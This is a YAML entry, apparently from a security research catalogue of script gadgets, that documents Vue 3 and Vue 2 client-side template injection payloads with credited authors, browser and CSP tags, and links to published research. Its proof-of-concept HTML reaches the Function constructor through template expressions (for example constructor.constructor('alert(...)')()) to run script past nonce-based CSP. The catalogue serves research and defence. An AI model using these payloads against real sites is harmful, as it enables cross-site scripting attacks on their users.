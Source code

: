 ```yaml
---
description: Vue.js is an MIT-licensed open source project with its ongoing development made possible entirely by the support of these awesome [backers](https://github.com/vuejs/core/blob/main/BACKERS.md). If you'd like to join them, please consider [sponsoring Vue's development](https://vuejs.org/sponsor/).
github: vuejs/core
gadgets:
  Vue 3:
    authors:
      - twitter:garethheyes
      - twitter:LewisArdern
      - twitter:PwnFunction
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - any-attr
      - unsafe-eval-csp
      - func-call-parameter
    pocs:
      - description: This is not the full list of different CSTI payloads. The full list can be found [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected).
        code: |
          <!-- user input -->
          <div id="app">
            <p>{{_openBlock.constructor("alert(1)")()}}</p>
            <p>{{_createBlock.constructor("alert(2)")()}}</p>
            <p>{{_toDisplayString.constructor("alert(3)")()}}</p>
            <p>{{_createVNode.constructor("alert(4)")()}}</p>
            <p v-show=_createBlock.constructor`alert(5)`()></p>

            <x></x>
            <teleport></teleport>
          </div>

          <script nonce="secret" src="https://unpkg.com/vue@3/dist/vue.global.js"></script>
          <script nonce="secret">
            const app = Vue.createApp({
              data() { return { input: "# hello" }}
            })
            app.mount("#app");
          </script>
    links:
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected
      - https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets
  Vue 2:
    authors:
      - twitter:cure53berlin
      - twitter:garethheyes
      - twitter:slekies
      - twitter:LewisArdern
      - twitter:PwnFunction
      - twitter:sirdarckcat
      - twitter:kkotowicz
      - twitter:davwwwx
      - twitter:p4fg
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - any-attr
      - unsafe-eval-csp
      - func-call-parameter
    pocs:
      - description: |
          This is not the full list of different CSTI payloads. The full list can be found [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected).

          *The author of this gadget is [cure53berlin](https://x.com/cure53berlin), but since many other gadgets were found by other hackers, I've listed all of them as authors for this gadget.*
        code: |
          <!-- user input -->
          <div id="app">
            <p>{{constructor.constructor("alert(document.domain)")()}}</p>
          </div>

          <script nonce="secret" src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>
          <script nonce="secret">
            new Vue({
              el: "#app",
              data: {}
            });
          </script>
    links:
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected
      - https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets
---
```

